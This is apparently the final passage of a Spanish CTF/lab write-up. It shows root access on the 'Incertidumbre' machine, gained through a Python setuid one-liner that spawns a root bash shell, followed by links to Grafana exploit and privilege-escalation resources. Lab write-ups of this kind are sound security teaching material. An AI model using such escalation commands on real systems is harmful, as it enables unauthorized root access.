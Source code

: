Probémoslo:
```bash
cloud@TheHackersLabs-Incertidumbre:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@TheHackersLabs-Incertidumbre:~# whoami
root
```
Somos **Root**.

Obtengamos la última flag:
```bash
root@TheHackersLabs-Incertidumbre:~# cd /root
root@TheHackersLabs-Incertidumbre:/root# ls
grafana_8.2.0_amd64.deb  root.txt  snap
root@TheHackersLabs-Incertidumbre:/root# cat root.txt
...
```
Y con esto, terminamos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://github.com/advisories/GHSA-8pjx-jj86-j47p
* https://www.exploit-db.com/exploits/50581
* https://rootxsushant.medium.com/a-comprehensive-guide-for-pentesting-grafana-cfa09b2f1243
* https://grafana.com/docs/grafana/latest/datasources/mysql/configuration/
* https://grafana.com/docs/grafana/latest/datasources/mysql/query-editor/
* https://github.com/peass-ng/PEASS-ng
* https://gtfobins.github.io/gtfobins/python/


<br>

# FIN

<footer id="myFooter">
    <!-- Footer para eliminar el botón -->
</footer>

<style>
        #backToIndex {
                display: none;
                position: fixed;
                left: 87%;
                top: 90%;
                z-index: 2000;
                background-color: #81fbf9;
                border-radius: 10px;
                border: none;
                padding: 4px 6px;
                cursor: pointer;
        }
</style>
